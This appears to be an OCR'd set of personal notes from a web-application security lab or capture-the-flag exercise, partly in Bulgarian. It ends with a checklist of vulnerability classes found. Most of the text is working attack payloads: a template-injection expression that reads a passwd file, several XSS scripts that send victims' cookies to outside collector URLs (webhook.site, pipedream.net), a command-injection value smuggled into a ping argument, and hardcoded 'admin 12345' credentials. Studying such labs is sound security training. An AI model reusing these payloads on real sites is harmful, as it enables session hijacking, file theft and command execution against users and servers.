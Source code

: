 ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('../../passwd').toURL().openStream().readAllBytes()?join(" ")}


<script>document.location='https://webhook.site/e31877dc-ae9e-4b03-9971-ded22397f279'+document.cookie</script>

<script>document.write("<img src='https://eoh9y0mroigfznp.m.pipedream.net'"+document.cookie+"');</script> some text

"><script>document.write(%22<img src=https://eoh9y0mroigfznp.m.pipedream.net?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>

script>document.write("<img src='the webhook"+document.cookie+"'></img>");</script>


script>document.write("<img src='yeet"+document.cookie+"'></img>");</script>

% admin 12345 username and password
% and ping -c 1 "1.1.1.1| ls"
% alert-waneto na go w comment section-a

% upload - unrestricted file upload

Authorization Header: The Authorization header appears to contain a base64-encoded string. It's crucial to understand that setting the Authorization header in this manner doesn't handle user authentication. It might be a static token, but it's not a secure way to authenticate users.

moje da se editne faila prez ping-a

what attacks are these from the list -
[x] * Stored Cross-Site Scripting (XSS);
[x] * Remote Code Execution (RCE);
[] * Server-Side Request Forgery (SSRF);
[x] * Template Injection;
[x] * Use of Hardcoded Credentials;
[x] * Unrestricted File Upload;
[x] * Identification and Authentication Failure;
[] * Broken Access Control.